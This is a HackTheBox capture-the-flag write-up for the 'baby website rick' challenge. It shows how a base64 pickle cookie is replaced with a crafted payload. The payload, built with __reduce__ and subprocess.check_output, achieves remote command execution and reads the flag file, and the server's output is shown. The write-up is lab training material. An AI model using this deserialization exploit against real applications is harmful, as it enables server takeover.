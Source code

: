 # baby website rick

Completed: Yes
Platform: HackTheBox

In the beginning, we see Rick and again the hint with `insecure deserialization`. Also, we see the object's string. Also, if you look at the cookie, you'll see a strange cookie - plan_b. Decode it with base64 and got syntax similar to python pickle serialization. I tried somehow to get back the object from this decoded string, but it is not possible. Even if you simulate your code, create a class anti_pickle_serum, you'll not receive the flag or something anyway. Also, you have to read about attacks on serialization and deserialization from here:

[https://book.hacktricks.xyz/pentesting-web/deserialization#python](https://book.hacktricks.xyz/pentesting-web/deserialization#python) 

[https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf](https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf)

I tried firstly, os.system, but it doesn't work and you'll get the response code of 500. Try subprocess.check_output for the attack from hacktricks:

```python
import pickle, subprocess, base64
class anti_pickle_serum(object):
    def __reduce__(self):
        return subprocess.check_output, (['ls'],)
print(base64.b64encode(pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)))
```

And you will receive the output of ls:

```python
<span>Don't play around with this serum morty!! app.py
flag_wIp1b
static
templates
</span>
```

You have to dump a dict, because if you try to load the pickle string from base64 string, you will get the dict `{'serum': anti_pickle_serum object}`.  protocol 0 is also necessary, because without it, your string will not similar to initial cookie.

Thus, remains to take the flag with `cat flag_wIp1b`.

```python
import pickle, subprocess, base64
class anti_pickle_serum(object):
    def __reduce__(self):
        return subprocess.check_output, (['cat', 'flag_wIp1b'],)
print(base64.b64encode(pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)))
```

Forgot to say, that you have to use python2, because the backend doesn't understand python3 serialization and it is not equal to serialization in python2.